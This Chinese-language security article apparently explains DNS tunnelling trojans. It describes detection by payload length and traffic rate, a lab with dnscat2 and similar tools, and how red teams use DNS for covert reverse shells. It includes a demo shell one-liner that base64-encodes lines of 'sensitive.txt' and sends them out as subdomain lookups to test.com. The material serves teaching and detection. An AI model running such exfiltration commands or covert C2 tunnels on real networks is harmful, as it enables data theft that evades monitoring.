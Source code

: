 > Read More!!! [http://www.4hou.com/technology/7368.html](http://www.4hou.com/technology/7368.html)

相信机智的你已经看出来了🙂这些 DNS 隧道的木马都有一个共性，它们的 DNS 通信协议，看起来都比较奇怪，对，就是不正常；那么我们该如何去检测！, 目前主要分为两大类: 载荷分析和流量监测。

载荷分析：把主机名超过 52 个字符的 DNS 请求作为识别 DNS 隧道的特征.（正常的域名满足 Zipf 定律, 而走 DNS 隧道的域名遵循的是随机分布）

流量监测：检测网络中的 DNS 流量变化情况，通过检测单位时间内 DNS 报文流速率来检测是否存在 DNS 隧道，利用检测 txt 类型的 DNS 报文来发现僵尸网络的通信情况。

实验环境
----

在接下来的环节中，我会利用 Github 上常见的开源隧道工具如 dnscat2、Reverse_DNS_Shell、icmpsh、icmptunnel 等进行实验，分析其通信，提取相关的特征。

```
Server: inet192.168.30.129 Debian 7.2
Client: inet 192.168.30.130Debian 7.2
Other: inet192.168.30.134 Win XP
```

### DNS 隧道

DNS 隧道通信是 C&C 常用的通信方式，一般常用的编码方式 Base64、Binary、Hex 编码等，请求的 Type 一般为 txt（为了返回的时候能够加入更多的信息）payload 部分一般为子域名。DNS 工作原理如下：

[![](https://p4.ssl.qhimg.com/t01e256636acf9ac124.png)](https://p4.ssl.qhimg.com/t01e256636acf9ac124.png)

这里先介绍 DNS 隧道的一个应用场景：

> 在安全策略严格的内网环境中，常见的 C&C 通讯端口都被众多安全设备所监控。如果红队对目标内网的终端进行渗透时，发现该网段只允许白名单流量出站，同时其它端口都被屏蔽时，传统 C&C 通讯手段无法成立，反弹 Shell 变得十分困难。在这种情况下，红队还有一个最后的选择：使用 DNS 隐蔽隧道建立 ReverseShell。

一个 Demo（我们可以用下面这样的 shell:).

```
For I in (cat sensitive.txt); do d=(echoi|base64) && nslookup d.test.com; done
/**对每行内容进行base64编码,在DNS查询期间将其用作子域，一旦查询到达test.com的Authoritative DNS服务器，我们就可以捕获相应的DNS日志，通过解析日志可以获得子域，从而得到相应的敏感数据**/
这样的 shell 自然存在许多不足的地方
```

1、单向通信，不能从 C2(Authoritative DNS) 发回命令  
2、读取文件非常容易，如果需要处理 100MB 数据时 DNS 数据包可能会以不同的顺序到达。  
根据木马工作原理的不同, 将 DNS 隧道木马细分为 IP 直连型和域名型，这里主要介绍：DnsCat2、Dnscat2-powershell、Reverse_DNS_Shell。

**dnscat2**

DNScat2 支持加密，通过预共享密钥进行身份验证，多个同时进行的会话，类似于 ssh 中的隧道，命令 shell 以及最流行的 DNS 查询类型（TXT，MX，CNAME，A，AAAA）, 客户端用 C 语言编写，服务器用 ruby 编写。

[![](https://p0.ssl.qhimg.com/t0155ea27f101d909dc.png)](https://p0.ssl.qhimg.com/t0155ea27f101d909dc.png)  
Dns Tuneling

当运行客户端时，需要指定一个域名（域名型 DNS 隧道木马），所有请求都将发送到本地 DNS 服务器，然后将转发至该域 Authoritative DNS 服务器，如果你没有一个 Authoritative DNS 服务器，你也可以选择 UDP 的 53 端口（IP 直连型 DNS 隧道木马），这样速度更快，而且看起来仍然像普通的 DNS 查询，但是在请求日志中所有域名都是以 dnscat 开头，这种模式也容易被防火墙检测到，Server 需要在 Authoritative DNS 服务器上运行，与 Client 相同需要指定域名 / IP。

[![](https://p0.ssl.qhimg.com/t01f4ccf70c266f521d.png)](https://p0.ssl.qhimg.com/t01f4ccf70c266f521d.png)  
​ 域名型 DNS 隧道木马通信架构图
